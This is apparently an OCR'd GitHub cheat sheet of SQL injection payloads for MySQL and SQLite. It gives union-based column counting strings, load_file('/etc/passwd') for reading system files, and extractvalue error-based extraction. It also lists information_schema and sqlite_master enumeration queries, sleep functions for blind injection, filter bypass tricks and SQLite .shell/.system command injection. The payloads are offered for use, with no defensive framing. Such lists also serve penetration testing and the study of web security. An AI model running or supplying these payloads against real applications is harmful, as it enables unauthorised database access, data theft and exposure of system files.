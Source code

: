 ```
' union null, null --
' union null, null, null --

- etc
select load_file('/etc/passwd')
select database_name, table_name from mysql.innodb_table_stats
select table_schema from information_schema.schemas
select table_name from information_schema.tables
select column_name from information_schema.columns
select extractvalue(rand(),concat(0x3a,((select <column_name> from <table_name> limit 0, 1))))
```

<span style="color:#21C587">&#35;</span><strong> SQLite</strong><br>
```
- comments
--, /**/

- length check
length()

- like
1=1, 1 in(1), 1 like 1, 1==1, !(1<>1)

- version check
sqlite_version()

- string split
substr()

- add string
||, concat()

- sleep func
sqlite3_sleep()

- Conditional
case when 1=1 then 1 else 0 end

- limit
limit <count>
limit <skip>, <count>
limit <count> offset <skip>

- Number of columns
' order by 1 --
' order by 2 --
' order by 3 --
' union null --
' union null, null --
' union null, null, null --

- string to hex
unicode()

- select bypass
select 1 = values(1)
select 'admin' = values('admin')

- command injection
.sh ls, .shell ls, .system ls

- etc
select group_concat(sql), group_concat(name) from sqlite_master
union select group_concat(<column_name>), group_concat(<column_name>), null, null from <table_name>
```